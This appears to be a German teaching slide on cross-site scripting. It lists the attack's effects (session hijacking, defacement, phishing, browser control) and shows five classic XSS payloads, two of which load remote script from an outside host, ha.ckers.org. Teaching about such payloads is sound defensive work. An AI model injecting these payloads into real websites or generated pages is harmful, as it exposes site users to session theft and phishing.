

# XSS via JavaScript
Entführen der Session
Website Defacements
Phishing
die Kontrolle des Browsers
<script type="text/javascript">alert("XSS");</script>
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>”>
<BODY ONLOAD=alert('XSS')>